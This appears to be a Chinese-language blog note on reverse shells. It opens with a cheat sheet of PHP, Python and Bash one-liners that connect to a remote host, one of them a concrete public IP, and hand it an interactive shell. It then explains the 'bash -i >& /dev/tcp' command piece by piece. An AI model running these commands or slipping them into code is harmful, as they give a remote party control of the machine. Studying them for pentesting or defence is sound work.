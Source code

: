 ### 反弹shell的姿势
参考：
- https://www.cnblogs.com/r00tgrok/p/reverse_shell_cheatsheet.html

php
```bash
php -r '$sock=fsockopen("xxx.xxx.xxx",1234);exec("/bin/bash -i <&3 >&3 2>&3");'
```
  
python
```bash
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
  
bash
```bash
bash -i >& /dev/tcp/120.77.219.21/82 0>&1
exec 5<>/dev/tcp/120.77.219.21/82; cat <&5 | while read line; do $line 2>&5 >&5; done
```

### bash_shell反弹理解
参考：
- https://blog.csdn.net/qq_33020901/article/details/78600382

`bash -i >& /dev/tcp/120.77.219.21/82 0>&1`这样一个反弹shell的命令，我们可以拆分为多个部分进行理解。

**第一部分：`bash-i`**  
  
`bash -i`是启动一个交互式shell，可通过`echo $-`查看自己是否为交互式shell，返回的结果包含i就是交互式。

交互式和非交互式的区别在于：
- 交互式shell等待你的输入，执行你提交的命令，返回你结果。  
- 非交互式，shell不与你进行实时交互，而是读取存放在文件仲的命令并执行。

**第二部分：`/dev/tcp/ip/port`**

如：`/dev/tcp/192.168.9.9/82`，这个命令的意思就是和`192.168.9.9:82`这个ip地址的82端口建立tcp连接。

例子：
```bash
echo 'test'>/dev/tcp/192.168.9.9/82 #发送信息到TCP连接
cat </dev/tcp/192.168.9.9/82  #从TCP连接读取信息
```

**第三部分：`>`重定向和`0>&1`**

我们可以吧上面2个命令和`>`组合起来就是
```bash
bash -i > /dev/tcp/192.168.9.9/82  # 本机输入执行命令，目标机（tcp连接对象）输出执行结果
bash -i < /dev/tcp/192.168.9.9/82  # 目标及（tcp连接对象）输入执行命令，本机输出执行结果
```

接下来再把`0>&1`拼接进来
```bash
bash -i > /dev/tcp/192.168.9.9/82 0>&1
```

上面这个命令是综合了
```bash
bash -i > /dev/tcp/192.168.9.9/82
bash -i < /dev/tcp/192.168.9.9/82
```
的一个交互式shell，但是有缺陷，就是在本机输入要执行的命令，目标机会有回显。
![](/images/19-7-5_OS_Linux反弹shell1.png)
但是这不妨碍我们理解`0>&1`。
  
可以把`0>&1`看成目标机通过tcp连接获取本机的输入（id）。因此本机在bash中打印出`id`然后把执行结果通过`>`重定向由tcp连接发送给本机。

**第四部分：`>&`**  
在通常情况下,`>&`右边为数字（0，1，2）中的一个，表示重定向。但是如果`&`右边为字符的话，意思就不单纯了。如图
![](/images/19-7-5_OS_Linux反弹shell2.jpg)

意思就是：**`>&word`和`&>word`都表示的是把标准输出和标准错误同时重定向到某个文件，都相当于`>word 2>&1`**。

所以我们可以把`>&`拼接
```bash
bash -i >& /dev/tcp/192.168.9.9/82 0>&1
```
相当于：
```bash
bash -i >& /dev/tcp/192.168.9.9/82 0>&1 2>&1
```

这样就是一个完整的bash反弹shell了。我知道没有讲通，但是我想了很久，只能先硬啃了。